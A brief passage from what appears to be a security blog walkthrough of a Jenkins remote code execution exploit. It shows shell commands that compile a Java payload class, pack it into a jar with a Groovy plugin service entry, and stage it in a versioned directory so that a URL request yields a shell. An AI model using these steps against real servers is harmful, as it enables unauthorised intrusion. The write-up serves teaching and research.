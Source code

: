 For example, if I uploaded with a version of java that isn’t compatible with
the box, I can recompile that locally, rebuild the jar, and everything else
using version 224 instead of 223. I’ll need a new directory and filename for
the jar:

    
    
    root@kali# javac Orange.java 
    root@kali# jar cvf 0xdf-224.jar Orange.class META-INF
    added manifest
    adding: Orange.class(in = 579) (out= 416)(deflated 28%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/org.codehaus.groovy.plugins.Runners(in = 7) (out= 9)(deflated -28%)
    root@kali# mkdir tw/orange/0xdf/224
    root@kali# cp 0xdf-224.jar tw/orange/0xdf/224/
    

Now I update the version in the url and refresh, and I get a shell.

[](/2019/02/27/playing-with-jenkins-rce-vulnerability.html)

